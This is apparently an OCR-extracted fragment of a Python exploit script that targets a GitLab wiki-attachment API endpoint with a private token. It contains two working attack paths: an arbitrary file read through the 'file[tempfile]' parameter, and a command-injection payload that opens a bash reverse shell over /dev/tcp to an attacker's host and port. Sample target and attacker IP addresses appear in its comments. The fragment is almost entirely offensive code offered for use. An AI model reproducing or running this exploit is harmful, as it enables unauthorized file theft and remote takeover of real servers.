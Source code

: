 ```
'''
#get the target domain or ip, SAMPLE OUTPUT: http://47.56.208.67
TARGET = URL[0:URL.find(substr,URL.find(substr)+3)].rstrip('/')

LHOST = options.lhost
LPORT = options.lport
FILE = options.file
TOKEN = options.token

if TOKEN == None or URL == None:
        print("Target project URL and Private token is required!")
        exit(0)
if LHOST == None and LPORT == None and FILE ==None:
        print(parser.usage)
        exit(0)

if FILE:
    tempfile = FILE
    # make request, using POST METHOD!
    url = '{0}/api/v4/projects/1/wikis/attachments'.format(TARGET)
    body = {
        'file[filename]': '123',
        'file[tempfile]': '{0}'.format(tempfile)
    }
    headers = {'private-token': '{0}'.format(TOKEN)}
    response = requests.post(url, data=body, headers = headers)
    #response_data = json.dumps(response.json(), sort_keys=True, indent=4, separators=(',', ': '))

    if("error_description" in response.json()):
        print("Fail! The reason is:")
        print(response.json()["error_description"])
        exit(0)
    file_path = response.json()["file_path"]
    # As fot the second layer,e.g. response.json()["link"]["url"]

    if file_path:
        print("\nSend Payload Success :) \n\nPath: %s" % file_path)

    # make second request using upload path data.
    file_url = '{0}/wikis/{1}'.format(URL,file_path)
    # WATCH OUT: It is not POST METHOD but GET METHOD!
    response = requests.get(file_url, headers = headers)

    print("\nContent: \n%s" % (response.text))
else:
    tempfile = '| bash -c "bash -i >& /dev/tcp/{0}/{1} 0>&1"'.format(LHOST, LPORT)
    '''
    URL encode. SAMPLE OUTPUT: %7C%20bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/47.244.253.36/9999%200%3E%261%22
    '''
    tempfile = urllib.parse.quote(tempfile)

    url = '{0}/api/v4/projects/1/wikis/attachments'.format(TARGET)
    body = "file[filename]=123&file[tempfile]=%s" % tempfile
    '''
    body = {
        'file[filename]': '123',
        'file[tempfile]': '{0}'.format(tempfile)
    }
    '''
    headers = {'private-token': '{0}'.format(TOKEN)}
    print("\nStarting Reverse Shell :)")
    requests.post(url, data=body, headers = headers)
```